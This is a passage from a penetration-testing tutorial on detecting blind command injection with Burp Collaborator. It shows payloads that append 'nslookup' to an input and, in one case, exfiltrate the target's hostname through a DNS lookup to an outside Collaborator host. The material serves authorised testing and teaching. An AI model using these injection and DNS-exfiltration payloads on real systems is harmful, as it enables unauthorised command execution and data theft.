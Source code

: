         It will look something like this:
        
        `255g0p3vslus8dt7w02tj4cj8ae22r.burpcollaborator.net`
        
        Fun fact: the nslookup command uses similar syntax on Windows and  
        Linux, making it a perfect candidate for cross-platform blind command  
        injection tests. Just insert `nslookup $collaborator-payload` into your usual test cases. If a DNS lookup is performed on your payload, you’ll be notified by Collaborator.
        
        Let’s drop a Collaborator payload into our example injection…
        
        Here’s the payload:
        
        `8.8.8.8;nslookup 255g0p3vslus8dt7w02tj4cj8ae22r.burpcollaborator.net`
        
        The only output we see from the web application is “Test passed.”
        
        [![](https://threat.tevora.com/content/images/2018/05/collaborator-payload-ui-1.png)](https://threat.tevora.com/content/images/2018/05/collaborator-payload-ui-1.png)
        
        [![](https://www.tevora.com/wp-content/uploads/2018/05/collaborator-payload-ui-1.png)](https://www.tevora.com/wp-content/uploads/2018/05/collaborator-payload-ui-1.png)
        
        But we see the response to our injection received by the Collaborator client, confirming we have command execution.
        
        [![](https://threat.tevora.com/content/images/2018/05/collaborator-interaction.png)](https://threat.tevora.com/content/images/2018/05/collaborator-interaction.png)
        
        [![](https://www.tevora.com/wp-content/uploads/2018/05/collaborator-interaction.png)](https://www.tevora.com/wp-content/uploads/2018/05/collaborator-interaction.png)
        
        Awesome.
        
        Let’s take it a step further. What if we wanted to exfiltrate some  
        data? Perhaps we’re unable to gain a shell from our injection attempts,  
        and we need to figure out why — or we just want a better proof of  
        concept for our report.
        
        Collaborator gives us a really simple and effective option for this,  
        without leaving BurpSuite to setup additional tools during a test.
        
        We can use Collaborator to pull back some details about the target by  
        appending system data to the beginning of the DNS lookup. Collaborator  
        will accept lookups to any subdomain requested on the payload (keeping  
        in mind 63 character limits for subdomains, and 253 character limits for  
        the overall DNS lookup).
        
        Let’s pull back the hostname of our target system.
        
        Here’s the payload:
        
        `8.8.8.8;nslookup $(hostname).255g0p3vslus8dt7w02tj4cj8ae22r.burpcollaborator.net`
        
        [![](https://www.tevora.com/wp-content/uploads/2018/05/hostname-payload.png)](https://www.tevora.com/wp-content/uploads/2018/05/hostname-payload.png)
        
        Excellent, we’ve retrieved the hostname from our target through DNS  
        exfiltration. With a little imagination we can bring back all sorts of  
        informative details.
        